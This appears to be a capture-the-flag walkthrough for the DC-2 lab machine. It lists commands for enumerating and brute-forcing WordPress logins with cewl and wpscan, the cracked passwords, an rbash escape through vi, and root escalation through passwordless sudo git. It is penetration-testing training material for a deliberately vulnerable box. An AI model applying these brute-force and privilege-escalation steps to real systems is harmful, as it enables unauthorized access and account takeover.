

# DC - 2

nmap enumeration


finding webapp directories


the output indicates that we have wp-admin directory so this is a wordpress CMS

add dc-2 to /etc/hosts of your kali machine to browse the webapp 


check out all pages for anything useful


create a wordlist using cewl command:

```text
cewl -m 4 -e -w wordlist http://dc-2
```

enumerate usernames with wpscan:

```text
wpscan --url http://dc-2  --enumerate u --force --wp-content-dir wp-content 
```


userlist:

```text
admin
tom
jerry
```

now lets brute force these acounts with the wordlist

```text
wpscan --url http://dc-2 --passwords wordlist  --usernames userlist -t 25
```



jerry : adipiscing

 tom : parturient

lets try ssh \( port 7744\)


we have an rbash we need to escape from it

echo $path


we have less, ls, scp and vi

we can escape the shell through vi command:

```text
vi
:set shell=/bin/bash
:shell
```

```text
less flag3.txt
```


so we need to su to jerry

su is not available for us so we should fix the $PATH variable

fix the path problem

```text
export PATH=/bin:/usr/bin:$PATH
```

su jerry


now we need r00t:


we can sudo git without password

use gtfobins instructions for this privesc method:

```text
sudo git -p help config
!/bin/sh
```


done !


